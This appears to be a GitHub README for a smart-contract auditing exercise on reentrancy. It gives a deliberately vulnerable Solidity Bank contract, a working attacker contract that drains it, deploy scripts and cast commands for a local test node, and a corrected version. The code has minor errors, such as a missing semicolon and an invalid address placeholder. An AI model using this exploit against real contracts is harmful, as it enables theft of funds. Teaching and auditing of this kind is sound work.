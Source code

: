 # Web3eg-Smart-Contract-Auditor-Reentrancy-
- The provided Bank contract is vulnerable to a reentrancy attack. This vulnerability occurs because the contract updates the user's balance (balances[msg.sender] = 0) after sending Ether to the user. An attacker can exploit this by recursively calling the withdrawEth function before the balance is updated, draining the contract's funds.

```solidity
//SPDX-Liecense-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank{

    mapping(address =>uint256) public balances;

    function depositEth() payable{
        balances[msg.sender] += msg.value;
        
    }

    function withdrawEth() public{
        uint amount = balances[msg.sender];
        (bool sent,) = msg.sender.call{value : amount}("");
        require(sent,"Failed to send Ether");

        balances[msg.sender] = 0 ;
    }
}
```

- Below, I'll explain how to exploit this vulnerability and provide an example of an attacker contract that performs the reentrancy attack.
  The withdrawEth function has the following vulnerable logic:
   It checks the user's balance: uint amount = balances[msg.sender];
   It sends Ether to the user: msg.sender.call{value: amount}("").
   It updates the user's balance to 0: balances[msg.sender] = 0.
  - Contract  To Attack 
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "src/Bank.sol"
contract Attack {
    Bank public bank;

    constructor(address _bankAddress) payable {
        bank = Bank(_bankAddress);
    }

    // Fallback function to receive Ether and initiate reentrancy
    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdrawEth();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 Ether");
        bank.depositEth{value: 1 ether}();
        bank.withdrawEth();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Explanation of the Attack Flow:
The attack function deposits 1 Ether into the Bank contract.
The attack function calls withdrawEth, which sends 1 Ether back to the Attack contract.
The receive function in the Attack contract is triggered, and it recursively calls withdrawEth again before the balance is set to zero.
This process repeats until the Bank contract is drained of its Ether.

- Script To Deploy Bank contract
  
```solidity

//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Bank.sol";

contract DeployBank is Script{

    function run() external {
        vm.startBroadcast();
        Bank bank = new Bank();
        vm.stopBroadcast();
       
    }
}
```
- Script To Deploy Attack Contract With Address Of Bank Contract
```solidity
//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Attack.sol";

contract DeployAttack is Script{

    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(address(Bank Contract Address));
        vm.stopBroadcast();
       
    }
}
```
- Steps with Command
  
``` cast send <BANK_CONTRACT_ADDRESS> --value 10ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast send <ATTACK_CONTRACT_ADDRESS> "attack()" --value 1ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast call <ATTACK_CONTRACT_ADDRESS> "getBalance()" --rpc-url http://127.0.0.1:8545 ```

``` cast balance <BANK_CONTRACT_ADDRESS> --rpc-url http://127.0.0.1:8545 ```

- How to Fix the Vulnerability:
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank {
    mapping(address => uint256) public balances;

    function depositEth() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawEth() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        // Effects: Update the state before sending Ether
        balances[msg.sender] = 0;

        // Interactions: Send Ether after updating the state
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```


